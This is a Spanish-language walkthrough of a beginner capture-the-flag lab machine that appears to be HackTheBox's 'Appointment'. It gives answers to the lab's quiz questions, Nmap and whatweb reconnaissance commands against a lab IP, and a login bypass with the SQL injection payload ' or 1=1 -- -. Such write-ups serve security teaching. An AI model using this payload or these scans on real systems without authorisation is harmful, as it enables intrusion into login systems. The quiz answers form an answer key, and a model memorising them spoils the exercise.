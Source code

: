En esta maquina vemos un poco de [[SQLI Ejemplo Basico]]

1)¿Qué significa la sigla SQL?
	Structured Query Language

2)¿Cuál es uno de los tipos más comunes de vulnerabilidades SQL?
	SQL Injection

3)¿Cuál es la clasificación 2021 OWASP Top 10 para esta vulnerabilidad?
	A03:2021-Injection

4) ¿Qué informa Nmap como el servicio y la versión que se están ejecutando en el puerto 80 del objetivo?
	Apache httpd 2.4.38 ((Debian))

5)¿Cuál es el puerto estándar utilizado para el protocolo HTTPS?
	443

6)¿Cómo se denomina una carpeta en la terminología de las aplicaciones web?
	directory

7)¿Cuál es el código de respuesta HTTP para los errores «No encontrado»?
	404

8)Gobuster es una herramienta utilizada para la fuerza bruta de directorios en un servidor web. Qué interruptor usamos con Gobuster para especificar que estamos buscando descubrir directorios, y no subdominios?
	dir

9)¿Qué carácter puede utilizarse para comentar el resto de una línea en MySQL?
	#

10)Si la entrada del usuario no se maneja con cuidado, podría interpretarse como un comentario. Utilice un comentario para iniciar sesión como admin sin conocer la contraseña. ¿Cuál es la primera palabra de la página web devuelta?
	Congratulations
	Esto lo dice una vez vulnerada la maquina
![[Appointment6.png]]

-------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.187.162   
nmap -p- --open -vvv -sS --min-rate 5000 -n -Pn 10.129.187.162 -oG allports
nmap -sCV -p80 10.129.187.162 -oN target
```

![[Appointment1.png]]

![[Appointment2.png]]

![[Appointment3.png]]

Por el ttl sabemos que es una maquina linux y el puerto 80 esta abierto corriendo un apache

---
# [[Whatweb-wappalyzer]]

## No nos dio ningun dato relevante la enumeracion
```shell
whatweb htpp://10.129.187.162
nmap --script http-enum -p80 10.129.187.162 -oN webScan
```

![[Appointment4.png]]

![[Appointment5.png]]

-------
# Intrusion a la maquina con [[SQLI Ejemplo Basico]]

Vamos a la pagina http://10.129.187.162
![[Appointment7.png]]
Vemos este panel de logeo, asi que intentamos una inyeccion sql
```
' or 1=1 -- -
En la contraseña ponemos cualquiera, no hace falta ninguna especifica
```

![[Appointment6.png]]
Y listo ya estaria la flag, y resolvimos la maquina